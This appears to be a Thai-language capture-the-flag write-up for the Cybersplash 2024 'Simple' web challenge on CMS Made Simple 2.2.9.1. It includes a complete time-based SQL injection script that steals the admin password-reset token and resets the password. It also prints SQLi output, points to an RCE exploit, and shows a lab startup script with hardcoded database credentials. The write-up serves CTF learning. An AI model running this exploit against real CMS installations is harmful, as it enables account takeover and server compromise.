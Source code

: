 ```yaml
---
title: Cybersplash 2024 [web/Simple]
published: 2024-04-18
image: "./cover.webp"
tags: ["Capture The Flag", "CTF Writeup", "Secplayground", "Cybersplash 2024"]
category: Cybersplash 2024
draft: false
---
```


โจทย์จากงาน Cybersplash 2024 จัดโดย Sec Playground ครับ

เข้ามาในเว็บเราจะเห็นว่า เว็บนี้ใช้เป็น CMS Made Simple 2.2.9.1 ซึ่งถ้าเราไปดู [changelog 2.2.10](http://dev.cmsmadesimple.org/project/changelog/5813) (เป็นเวอร์ชั่นถัดไปของ 2.2.9.1) เราจะพบว่า มันได้แก้ไข unauthenticated SQL injection ไป งี้ก็หวานเจี๊ยบบ~

ผมก็เลยลองใช้ [exploit](https://www.exploit-db.com/exploits/46635) และ จะได้ผลลัพท์มาแบบนี้

```
[+] Salt for password found: b7605adc292329c2
[+] Username found: admin@secplayground.com
[+] Email found: admin@secplayground.com
[+] Password found: a876e3732ce1e64bafa81dbf65d1a83c
```

~~ ซึ่งก็อกหัก crack ไม่ออก💔

เวลาได้ผ่านไปนานแสนนาน🕐

เพื่อนในทีมเลยให้ไอเดียมาว่า sqli ตัวนี้ใช้เป็น time based อาจจะพลาดได้ ผมเลยได้ลอง exploit ไปอีกหลายๆรอบ ผลลัพท์ก็ได้ออกมาเหมือนเดิม

```
[+] Salt for password found: b7605adc292329c2
[+] Username found: admin@secplayground.com
[+] Email found: admin@secplayground.com
[+] Password found: a876e3732ce1e64bafa81dbf65d1a83c

[+] Salt for password found: b7605adc292329c2
[+] Username found: admin@secplayground.com
[+] Email found: admin@secplayground.com
[+] Password found: a876e3732ce1e64bafa81dbf65d1a83c

[+] Salt for password found: b7605adc292329c2
[+] Username found: admin@secplayground.com
[+] Email found: admin@secplayground.com
[+] Password found: a876e3732ce1e64bafa81dbf65d1a83c

[+] Salt for password found: b7605adc292329c2
[+] Username found: admin@secplayground.com
[+] Email found: admin@secplayground.com
[+] Password found: a876e3732ce1e64bafa81dbf65d1a83c

[+] Salt for password found: b7605adc292329c2
[+] Username found: admin@secplayground.com
[+] Email found: admin@secplayground.com
[+] Password found: a876e3732ce1e64bafa81dbf65d1a83c
```

โอเคเหมือนกันหมด คงไม่ได้ให้ crack นั่นแหละ

ลืมไป คือ cms มันมีระบบ forgot password ซึ่งเมื่อเรากรอก username ไป มันจะไป generate changepassword token แล้วเก็บไว้ใน database😲

ซึ่งเราสามารถ sqli เพื่อไปเอา token นี้ได้ ก็เลยได้เป็น script นี้มา

```python
import requests
import time
from termcolor import cprint
import optparse
import re

parser = optparse.OptionParser()
parser.add_option('-u', '--url', action="store", dest="url", help="Base target uri (ex. http://10.10.10.100/cms)")

options, args = parser.parse_args()
if not options.url:
    print ("[+] Specify an url target")
    print ("[+] Example usage (no cracking password): exploit.py -u http://target-uri")
    print ("[+] Setup the variable TIME with an appropriate time, because this sql injection is a time based.")
    exit()

url_vuln = options.url + '/moduleinterface.php?mact=News,m1_,default,0'
session = requests.Session()
dictionary = '1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM@._-$'
flag = True
username="admin@secplayground.com"
TIME = 1
output = ""

def beautify_print_try(value):
    global output
    print ("\033c")
    cprint(output,'green', attrs=['bold'])
    cprint('[*] Try: ' + value, 'red', attrs=['bold'])

def beautify_print():
    global output
    print ("\033c")
    cprint(output,'green', attrs=['bold'])

def reset_pwd_stage1():
    d = {
        "forgottenusername" : username,
        "forgotpwform" : 1,
    }
    r = requests.post("%sadmin/login.php" % options.url, data=d)
    assert ("User Not Found" not in r.text), "(-) password reset failed!"

def reset_pwd_stage2(key):
    d = {
        "username" : username,
        "password" : username,      # just reset to the username
        "passwordagain" : username, # just reset to the username
        "changepwhash" : key,
        "forgotpwchangeform": 1,
        "loginsubmit" : "Submit",
    }
    r = requests.post("%sadmin/login.php" % options.url, data=d)
    match = re.search("Welcome: <a href=\"myaccount.php\?__c=[a-z0-9]*\">(.*)<\/a>", r.text)
    assert match, "(-) password reset failed!"
    assert match.group(1) == username, "(-) password reset failed!"

def dump_pwd_token():
    global flag
    global output
    reset_pwd_stage1()
    token = ""
    temp_token = ""
    ord_token = ""
    ord_token_temp = ""
    while flag:
        flag = False
        for i in range(0, len(dictionary)):
            temp_token = token + dictionary[i]
            ord_token_temp = ord_token + hex(ord(dictionary[i]))[2:]
            beautify_print_try(temp_token)
            payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_userprefs"
            payload += "+where+value+like+0x" + ord_token_temp + "25+and+user_id+like+0x31)+--+"
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
            if elapsed_time >= TIME:
                flag = True
                break
        if flag:
            token = temp_token
            ord_token = ord_token_temp
    flag = True
    output += '\n[+] Reset Token found: ' + token
    reset_pwd_stage2(token)

dump_pwd_token()

beautify_print()
```

แล้วก็็็็

![](cms-was-hacked.webp)

แล้วผมก็ได้ไปเจอ exploit ตัวนี้ https://www.exploit-db.com/exploits/49345
สามารถ RCE ได้ครับพี่น้อง👁️

โอเค ผมเข้าถึงเครื่องได้แล้ว ผมก็ไปเจอ bash script ในเครื่อง ชื่อ start.sh

```bash
cat start.sh
#!/bin/sh

random_column=`date +%s | sha256sum | base64 | head -c 20 ; echo`
sed -i "s/\[\[RANDOM_COLUMN\]\]/$random_column/g" /var/flag.sql
sed -i "s/\[\[RANDOM_SECRET\]\]/$RANDOM_SECRET/g" /var/flag.sql
#sed -i "s/\[\[RANDOM_SECRET\]\]/$RANDOM_SECRET/g" /tmp/flag.txt
#randomname=`date +%s | sha256sum | base64 | head -c 5 ; echo`&& mv /tmp/flag.txt /tmp/flag_$randomname.txt

/etc/init.d/mysql restart && \
mysql --user=root -e "ALTER USER 'root'@'localhost' IDENTIFIED BY 'P@ssw0rdP@ssw0rd1234';flush privileges"


mysql --user=root -h127.0.0.1 --password="P@ssw0rdP@ssw0rd1234" -e "CREATE DATABASE cms" && \
mysql --user=root --password="P@ssw0rdP@ssw0rd1234" -h127.0.0.1 cms < /var/flag.sql
mysql --user=root --password="P@ssw0rdP@ssw0rd1234" -h127.0.0.1 cms < /var/cms_dump.sql
rm /var/*.sql

### For cms user
mysql --user=root -h127.0.0.1 --password="P@ssw0rdP@ssw0rd1234" -e "CREATE USER 'cmsms'@'localhost' IDENTIFIED BY 'P@ssw0rd1234';flush privileges"
mysql --user=root -h127.0.0.1 --password="P@ssw0rdP@ssw0rd1234" -e "GRANT ALL PRIVILEGES ON *.* TO 'cmsms'@'localhost' WITH GRANT OPTION;"

#/etc/init.d/nginx start
#/etc/init.d/php7.0-fpm start
/etc/init.d/apache2 start
/etc/init.d/mysql start

tail -F /dev/null
```

มันเก็บ flag ไว้ใน Database ครับ ผมก็เลย Dump Database ออกมาดูซะเลย

![](flag.webp)

ได้ flag แล้วครับบ


### ???
ทำไม SQLi ได้แล้ว แล้วไม่ไปดึง flag ออกมาเลยล่ะ? ผมไม่รู้ว่า flag อยู่ใน db😭 เลยมุ่งไปที่ shell

